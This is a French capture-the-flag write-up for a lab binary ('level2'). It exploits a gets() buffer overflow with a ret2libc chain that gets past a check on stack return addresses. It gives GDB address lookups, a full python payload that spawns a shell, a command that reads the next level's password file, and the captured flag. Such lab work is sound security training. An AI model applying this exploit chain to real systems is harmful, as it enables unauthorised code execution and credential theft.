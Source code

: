 En utilisant disass de GDB on voit l'utilisation de la fonction p()
En allant voir la fonction p() on remarque l'utilisation de gets ( qui va nous permettre d'utiliser un buffer overflow ). On pourrait écrire notre propre shellcode, le mettre dans la stack et faire pointer EIP dessus pour lancer un shell admin.
Mais apres gets() la fonction p va vérifier l'adresse de retour de la fonction avec 0xb0000000. 

0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
0x080484fb <+39>:    and    $0xb0000000,%eax
0x08048500 <+44>:    cmp    $0xb0000000,%eax

Si on fait pointer sur par exemple 0xbfffff01, on aurait comme comparaison ((0xbfffff01 & 0xb0000000) == 0xb0000000)
```
0xbfffff01 = 10111111 11111111 11111111 00000001
AND
0xb0000000 = 10110000 00000000 00000000 00000000

En opération binaire 1 & 0 = 0 donc on obtient
0xb0000000 = 10110000 00000000 00000000 00000000
```

Nous ne pouvont donc pas overwrite EIP avec une adresse commencant par 0xb, ce qui est le cas de toutes les adresses de la stack. 

En revanche on peut utiliser un ret2libc ce qui va nous permettre de bypass la vérification de notre eip car on se référera à la heap et donc de quand même exécuter notre commande pour lancer le shell.

Un ret2libc se forme comme ceci:

`"notre buffer size max" + "l'adresse du return de la fonction p" + "l'adresse de la fonction system" + "l'adresse de la fonction exit ( qui sert de fonction de retour pour system )" + " notre argument pour la fonction system donc l'adresse de la string /bin/sh"`

Toutes ces informations sont disponibles dans le système en dehors de l'exécutable, et avec l'Address Space Layout Randomization (ASLR) désactivé, on peut accéder à leur adresse mémoire via gdb. Il suffit de mettre un breakpoint dans le programme, le run puis d'utiliser les commandes suivantes:

`print &system` --> 0xb7e6b060 (adresse de system()) 

`print &exit`   --> 0xb7e5ebe0 (adresse de exit())

`disass p`     --> 0x0804853e (call assembly de ret, on remarque que ça ne commence pas par 0xb)

`find &system, +9999999, "/bin/sh"` --> 0xb7f8cc58 (adresse de la string "/bin/sh") 

Il nous manque que l'offset afin de savoir quel taille fait notre buffer.
j'utilise un generateur de pattern pour faciliter la tache
(wiremask.eu   buffer overflow pattern generator)

La taille du buffer est donc de 80.

Nous pouvons donc maintenant faire notre input ( attention au little endian )
`python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"`

On ajoute juste la commande cat pour que le shell reste actif.

`(python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')" ; cat) | ./level2`

cat /home/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
